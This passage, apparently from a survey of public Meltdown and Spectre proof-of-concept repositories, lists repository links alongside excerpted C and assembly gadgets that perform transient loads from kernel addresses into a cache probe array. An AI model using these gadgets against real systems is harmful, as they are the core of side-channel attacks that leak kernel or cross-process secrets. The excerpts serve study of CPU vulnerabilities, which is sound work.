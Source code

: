 ```c
int speculative_transfer(int div, uint8_t secret)
{
    uint8_t data = 0;
    int res = 0;

    // rise_exception after delay
    int a=div;
    for(int i=0;i<100000;i++)
        a+=i;
    data = a / div;

    // speculative
    res += cache[CACHE_LINE_SIZE*secret];

    return res + data;
}
```

## Frichetten/meltdown-spectre-poc
* Link: [https://github.com/Frichetten/meltdown-spectre-poc](https://github.com/Frichetten/meltdown-spectre-poc)

```ASM
asm __volatile__ (
           ".global __speculative_byte_load_exit \n\t"
           "%=:                              \n"
           "xorq %%rax, %%rax                \n"
           "movb (%[ptr]), %%al              \n"
           "shlq $0xc, %%rax                 \n"
           "jz %=b                           \n"
           "movq (%[buf], %%rax, 1), %%rbx   \n"
           "__speculative_byte_load_exit:     \n"
           "nop                               \n"
           :
           :  [ptr] "r" (ptr), [buf] "r" (buf)
           :  "%rax", "%rbx");
```

## paboldin/meltdown-exploit
* Link: [https://github.com/paboldin/meltdown-exploit](https://github.com/paboldin/meltdown-exploit)
* Fork: [Digivill/Spectre-MeltDown-](https://github.com/Digivill/Spectre-MeltDown-)
* TODO: ASM

```asm
; rcx = kernel address
; rbx = probe array
retry:
mov al, byte [rcx]
shl rax, 0xc
jz retry
mov rbx, qword [rbx + rax]
```
